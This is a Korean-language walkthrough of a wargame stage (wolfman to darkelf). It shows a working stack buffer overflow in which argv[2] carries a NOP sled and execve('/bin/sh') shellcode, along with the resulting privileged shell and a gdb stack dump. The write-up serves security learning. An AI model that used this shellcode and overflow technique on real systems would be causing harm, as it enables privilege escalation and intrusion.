 이건 솔직히 좀 고민했다. 근데 생각해보니 입력은 어차피 줘야하는 거고 인자가 어디에 저장되는지를 떠올리니 금방 해결됐슴. 프로그램을 실행할 때 입력된 argv들은 메인 스택프레임보다 저어기 밑에 저장된다. 실행권한이 있는 스택이기 때문에 기계어 코드 실행가능. argv[1]의 길이만 검사하기 때문에 argv[2]로 payload를 넣으면 된다.

```shell
[wolfman@localhost wolfman]$ ./darkelf `python -c 'print "\x90"*40+"\x88\xf9\xff\xbf"+"\xb8\xfb\xff\xbf"+" "+"\x90"*0x100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
󿹻ÿ¿
bash$ id
uid=505(wolfman) gid=505(wolfman) euid=506(darkelf) egid=506(darkelf) groups=505(wolfman)
bash$ my-pass
euid = 506
kernel crashed
```

argv 확인. 저기 보면, 스택 가장 밑단에(가장 높은 주소) 실행 파일 이름(argv[0])와 argv로 들어간 값들을 확인할 수 있다. 메인 스택 플임 ebp+0x50 위치에는 argv[1]에 대한 포인터가 존재한다.

```shell
(gdb) x/100wx $ebp
0xbffff988:	0xbffff9a8	0x400309cb	0x00000003	0xbffff9d4
0xbffff998:	0xbffff9e4	0x40013868	0x00000003	0x08048450
0xbffff9a8:	0x00000000	0x08048471	0x08048500	0x00000003
0xbffff9b8:	0xbffff9d4	0x08048390	0x0804864c	0x4000ae60
0xbffff9c8:	0xbffff9cc	0x40013e90	0x00000003	0xbffffae3
0xbffff9d8:*0xbffffafc 	0xbffffb2d	0x00000000	0xbffffc46
0xbffff9e8:	0xbffffc58	0xbffffc70	0xbffffc8f	0xbffffcb1
0xbffff9f8:	0xbffffcbe	0xbffffe81	0xbffffea0	0xbffffebd
0xbffffa08:	0xbffffed2	0xbffffef1	0xbffffefc	0xbfffff15
0xbffffa18:	0xbfffff25	0xbfffff2d	0xbfffff3a	0xbfffff4b
0xbffffa28:	0xbfffff55	0xbfffff63	0xbfffff74	0xbfffff82
0xbffffa38:	0xbfffff8d	0xbfffffa0	0x00000000	0x00000003
0xbffffa48:	0x08048034	0x00000004	0x00000020	0x00000005
0xbffffa58:	0x00000006	0x00000006	0x00001000	0x00000007
0xbffffa68:	0x40000000	0x00000008	0x00000000	0x00000009
0xbffffa78:	0x08048450	0x0000000b	0x000001f9	0x0000000c
0xbffffa88:	0x000001f9	0x0000000d	0x000001f9	0x0000000e
0xbffffa98:	0x000001f9	0x00000010	0x0f8bfbff	0x0000000f
0xbffffaa8:	0xbffffade	0x00000000	0x00000000	0x00000000
0xbffffab8:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffac8:	0x00000000	0x00000000	0x00000000	0x00000000
0xbffffad8:	0x00000000	0x36690000	0x2f003638	0x656d6f68
0xbffffae8:	0x6c6f772f	0x6e616d66	0x7261642f	0x666c656b
0xbffffaf8:	0x0070632d	0x90909090	0x90909090	0x90909090
0xbffffb08:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffb18:	0x90909090	0x90909090	0x90909090	0xbffffab8
0xbffffb28:	0xbffffc80	0x90909000	0x90909090	0x90909090
0xbffffb38:	0x90909090	0x90909090	0x90909090	0x90909090
...
0xbffffc18:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffc28:	0x90909090	0x50c03190	0x732f2f68	0x622f6868
0xbffffc38:	0xe3896e69	0xe1895350	0xcd0bb099	0x00000080
0xbffffc48:	0x00000000	0x00000000	0x00000000	0x00000000
...
0xbfffffc8:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffffd8:	0x00000000	0x00000000	0x2f000000	0x656d6f68
0xbfffffe8:	0x6c6f772f	0x6e616d66	0x7261642f	0x666c656b
0xbffffff8:	0x0070632d	0x00000000	Cannot access memory at address 0xc0000000
(gdb) x/s 0xbfffffe8
0xbfffffe8:	 "/wolfman/darkelf-cp"
```
